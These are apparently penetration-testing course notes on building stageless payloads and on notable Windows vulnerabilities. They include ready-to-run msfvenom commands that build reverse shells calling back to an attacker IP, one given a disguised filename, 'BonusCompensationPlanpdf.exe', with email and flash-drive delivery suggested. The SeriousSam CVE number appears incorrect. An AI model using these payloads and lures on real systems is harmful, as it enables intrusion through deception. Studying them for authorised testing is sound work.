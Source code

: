 ### Let's build a payload
build it:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`

Dissect it:
`msfvenom` is the framework, `-p` create payload, `linux/x64/shell_reverse_tcp `, choose payload based on Architecture, `LHOST=10.10.14.113 LPORT=443 `, Address to connect back to, `-f elf ` format to generate Payload in (The -f flag specifies the format the generated binary will be in. In this case, it will be an .elf file). `> createbackup.elf` output.

### Executing a Stageless Payload
    Email message with the file attached.
    Download link on a website.
    Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
    Via flash drive as part of an onsite penetration test.

### Building a simple Stageless Payload for a Windows system
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`

### Executing a Simple Stageless Payload On a Windows System
This is another situation where we need to be creative in getting this payload delivered to a target system. Without any encoding or encryption, the payload in this form would almost certainly be detected by Windows Defender AV.

# Infiltrating Windows
### Dominant exploits
Vulnerability 	Description
`MS08-067` 	MS08-067 was a critical patch pushed out to many different Windows revisions due to an SMB flaw. This flaw made it extremely easy to infiltrate a Windows host. It was so efficient that the Conficker worm was using it to infect every vulnerable host it came across. Even Stuxnet took advantage of this vulnerability.
`Eternal Blue` 	MS17-010 is an exploit leaked in the Shadow Brokers dump from the NSA. This exploit was most notably used in the WannaCry ransomware and NotPetya cyber attacks. This attack took advantage of a flaw in the SMB v1 protocol allowing for code execution. EternalBlue is believed to have infected upwards of 200,000 hosts just in 2017 and is still a common way to find access into a vulnerable Windows host.
`PrintNightmare` 	A remote code execution vulnerability in the Windows Print Spooler. With valid credentials for that host or a low privilege shell, you can install a printer, add a driver that runs for you, and grants you system-level access to the host. This vulnerability has been ravaging companies through 2021. 0xdf wrote an awesome post on it here.
`BlueKeep` 	CVE 2019-0708 is a vulnerability in Microsoft's RDP protocol that allows for Remote Code Execution. This vulnerability took advantage of a miss-called channel to gain code execution, affecting every Windows revision from Windows 2000 to Server 2008 R2.
`Sigred` 	CVE 2020-1350 utilized a flaw in how DNS reads SIG resource records. It is a bit more complicated than the other exploits on this list, but if done correctly, it will give the attacker Domain Admin privileges since it will affect the domain's DNS server which is commonly the primary Domain Controller.
`SeriousSam` 	CVE 2021-36924 exploits an issue with the way Windows handles permission on the C:\Windows\system32\config folder. Before fixing the issue, non-elevated users have access to the SAM database, among other files. This is not a huge issue since the files can't be accessed while in use by the pc, but this gets dangerous when looking at volume shadow copy backups. These same privilege mistakes exist on the backup files as well, allowing an attacker to read the SAM database, dumping credentials.
